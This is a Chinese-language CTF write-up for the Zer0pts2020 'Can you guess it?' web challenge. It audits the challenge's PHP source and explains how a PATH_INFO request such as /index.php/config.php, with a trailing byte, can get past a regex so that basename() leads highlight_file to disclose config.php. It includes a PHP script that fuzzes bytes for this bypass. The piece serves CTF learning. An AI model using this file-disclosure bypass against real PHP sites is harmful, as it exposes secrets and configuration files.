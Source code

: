 ```yaml
---
title: Zer0pts2020 Can you guess it?
date: 2024-05-29 17:40:47
tags: 题解
categories: 刷题笔记
---
```


## [Zer0pts2020]Can you guess it?

点开source，发现源码

![image-20240529192034651](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405291920756.png)

```
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
```

然后开始进行代码审计

根据题目提示，flag在config.php中，所以我们的目的是要读取config.php

<!-- more -->

```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
 exit("I don't know what you are thinking, but I won't let you read it :)");
}
```

这个正则表达式用于检查字符串是否以 `config.php` 结尾，并且后面可以有零个或多个 `/` 字符，且不区分大小写。

$_SERVER['PHP_SELF']是一个包含当前脚本的文件名及路径的超级全局变量



```
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```

意思是给source传参，再用basename返回当前脚本的文件名



**basename**-返回路径中的文件名部分

例如：basename("/path/home.php") -> home.php

basename([string](https://www.php.net/manual/zh/language.types.string.php) `$path`, [string](https://www.php.net/manual/zh/language.types.string.php) `$suffix` = ""): [string](https://www.php.net/manual/zh/language.types.string.php)

```
path
```

一个路径。

在 Windows 中，斜线（`/`）和反斜线（`\`）都可以用作目录分隔符。在其它环境下是斜线（`/`）。

```
suffix
```

如果文件名是以 `suffix` 结束的，那这一部分也会被去掉。



```
$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
```

用bin2hex生成一个包含随机字节的密钥，并将其转换为十六进制表示形式

再用hash_equals将密钥与传入的guess进行比较，这个方法几乎是不可能的



我们开始解题，假如传入的是`/index.php/config.php`，运行的是`index.php`,但是`basename()`获取到的是`config.php`，

因此可以读取config.php，但由于存在正则匹配，我们需要绕过它

写一个脚本

```
<?php
function check($str){
    return preg_match('/config\.php\/*$/i', $str);
}
for ($i = 0; $i < 255; $i++){
    $s = '/index.php/config.php/'.chr($i);
    if(!check($s)){
        $t = basename('/index.php/config.php/'.chr($i));
        echo "${i}: ${t}\n";
    }
}

?>

```

